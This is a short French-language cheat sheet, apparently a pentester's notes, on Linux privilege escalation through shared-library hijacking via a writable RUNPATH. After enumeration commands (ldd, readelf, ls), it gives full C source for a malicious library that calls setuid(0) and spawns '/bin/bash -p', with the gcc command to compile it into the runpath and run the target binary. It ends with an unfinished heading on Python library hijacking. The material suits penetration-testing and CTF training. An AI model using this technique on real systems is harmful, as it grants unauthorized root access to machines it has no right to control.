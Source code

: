 1. Afficher les dll (.so) appelées par un binaire et identifier des libs custom (path différent)

```shell
ldd <programme>
```

2. Vérifier RUNPATH (prend le pas sur les autres folders de libs)

```shell
readelf -d <programme> | grep PATH
```

3. Vérifier si possible d'écrire dans le librairie runpath

```shell-session
ls -la /<runpath>/
```

4. SI BESOIN identifier les fonctions nécessaires au chargement de la lib (mettre une autre lib avec le même nom pour générer une erreur)

```bash
cp /lib/x86_64-linux-gnu/libc.so.6 /<runpath>/<lib>.so
```

5. Créer lib malveillante avec la fonction nécessaire

lib.c
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void <fonction>() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/bash -p");
} 
```

6. Compiler la lib dans le runpath

```shell-session
gcc lib.c -fPIC -shared -o /<runpath>/<lib>.so
```

7. Executer le binaire

```shell-session
./<programme> 
```

---
# Python Library Hijacking (SUID / Sudo)

> [!TIP]
> Possible de modifier le script directement ?
> Possible de modifier un module d'une librairie ?
